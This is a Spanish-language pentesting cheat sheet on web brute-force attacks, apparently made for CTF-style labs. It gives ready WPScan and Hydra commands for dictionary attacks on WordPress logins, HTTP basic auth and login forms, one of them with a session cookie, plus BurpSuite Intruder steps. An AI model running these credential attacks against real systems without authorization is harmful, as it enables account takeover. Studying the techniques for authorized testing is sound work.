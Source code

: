 # 🛠️ EXPLOTACIÓN WEB

## 🔐 FUERZA BRUTA WEB

### 🏴‍☠️ Ataques con herramientas comunes

#### 🔹 WPScan (WordPress)
```bash
wpscan -U admin -P /usr/share/wordlist/rockyou.txt --url http://web.com/carpeta
```
💡 *Ataque de diccionario al panel de login de WordPress.*

#### 🔹 Hydra (HTTP básico)
```bash
hydra -l usuario -P lista.txt http-get://IP/ruta -t 4
```
💡 *Ataque básico HTTP.*

Ejemplo:
```bash
hydra -l user -P passwords.txt 127.0.0.1 http-get / -s 81
```

#### 🔹 Hydra (Formulario de login HTTP-POST)
```bash
hydra -l usuario -P lista.txt IP http-post-form "/ruta:campo_usuario=^USER^&campo_password=^PASS^:Falla"
```
Ejemplo para WordPress con redirección:
```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt [IP] http-post-form '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:S=302'
```
Ejemplo para Ataque con Token
```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 'http-get-form://10.10.134.16/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=050toadub7n33f96ehi7jo83o1; security=low:F=Username and/or password incorrect'
```
```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 10.10.188.51 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:The password you entered for the username"
```
📌 **Flags importantes**:
- 🔤 **Mayúscula** (`-L`) = Lista de palabras (usuarios o contraseñas).
- 🔡 **Minúscula** (`-l`) = Sabemos el usuario o contraseña.

#### 🔹 BurpSuite (Intruder)
1. 🔍 Interceptar petición.
2. 📌 Mandar al **Intruder**.
3. 🎯 Seleccionar **Payloads** (usuario, contraseña o ambos).
4. ⚙️ Elegir tipo de ataque:
   - *Sniper Attack*: Si conocemos usuario o contraseña.
   - *Cluster Bomb Attack*: Si no conocemos ninguno.
5. 📂 Cargar lista de usuarios y contraseñas.
6. 🚀 **Start Attack**.

---